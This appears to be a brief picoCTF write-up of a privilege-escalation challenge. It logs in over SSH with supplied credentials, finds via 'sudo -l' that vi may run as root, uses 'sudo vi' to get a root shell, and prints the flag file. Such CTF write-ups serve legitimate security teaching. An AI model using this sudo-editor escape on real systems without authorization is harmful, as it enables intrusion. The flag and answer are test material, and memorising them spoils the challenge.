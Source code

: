 ## Objetivo
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:`ssh -p 53076 picoplayer@saturn.picoctf.net`Password: `e3pn6lmvHt`Can you login and read the root file?
## Solucion

```bash
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi test
root@challenge:/# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
root@challenge:/# cd challenge/
root@challenge:/challenge# ls
metadata.json
root@challenge:/challenge# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_f6ad392b}", "username": "picoplayer", "password": "e3pn6lmvHt"}root@challenge:/challenge# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.

┌──(wil㉿DESKTOP-FKOIV4I)-[/tmp/tmp.g0ZHIeDEng]
└─$
```
## Notas adicionales
## Referencias